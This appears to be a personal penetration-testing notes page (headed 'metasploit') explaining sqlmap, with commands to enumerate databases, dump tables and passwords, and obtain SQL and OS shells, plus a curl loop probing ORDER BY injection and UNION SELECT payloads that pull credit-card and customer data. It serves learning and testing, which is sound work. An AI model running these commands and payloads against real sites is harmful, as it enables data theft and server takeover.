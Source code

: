 ```yaml
---
title: "metasploit"
# search:
#   exclude: true

# hide:
#   - navigation
#   - toc
  #- footer
---
```


`sqlmap` is an open source automated penetration testing tool which can be used to detect and exploit SQL Injection flaws in a web application and potentially take over database servers.

It is a powerful tool that comes pre-installed in Kali Linux.

`URL_TARGET='http://www.example.com/form.php?id=123'`

`sqlmap -u ${URL_TARGET}`

The `URL_TARGET` must contain at least one parameter (example `?id=123`) in order to attempt different SQL injection methods.

example command  
`sqlmap -u 'http://www.example.com/form.php?id=123'`

If a vulnerability is found, you can use

* `--dbs` to list all databases

* `--tables` to list all tables  
`-T TABLE_NAME` to get the table information

* `--columns` to list all columns  
`-C COLUMN_NAME` to get the column information

* `--dump` to list all information

* `--sql-shell` to execute SQL queries

* `--os-shell` to access the underlying host operating system

* `sqlmap -h` help within the command

For more information and official documentation,  
check the official website at [https://sqlmap.org/](https://sqlmap.org/)

```bash
# sample from website

sqlmap -u 'http://www.example.com/form.php?id=123' --batch --banner

sqlmap -u 'http://www.example.com/form.php?id=123' --batch --passwords

sqlmap -u 'http://www.example.com/form.php?id=123' --batch --dbs

sqlmap -u 'http://www.example.com/form.php?id=123' --batch -D DATABASEBASE --all  # extracts all information from DB

sqlmap -u 'http://www.example.com/form.php?id=123' --batch --auth-type Basic --auth-cred "testuser:testpass"

sqlmap -u 'http://www.example.com/form.php?id=123' --batch --passwords

```

Exhaustive breakdown of all options and switches together with examples  
[https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

Other examples of code injection - [https://owasp.org/www-community/Injection_Flaws](https://owasp.org/www-community/Injection_Flaws)

## sql UNION

```bash
for i in $(seq 0 10);
do
    echo -n "${i} : " ; curl -s "http://10.XXX.XX.XXX/search.php?name=Ruby%27+ORDER+BY+${i}+%23++&submit=Search"
done
```

<https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection>

original query - `SELECT Name, Phone, Address FROM Users WHERE Id=$id`

query w/ union - `SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

`' UNION ALL SELECT Firstname,'text2','text3' FROM customers WHERE ID="1"#`
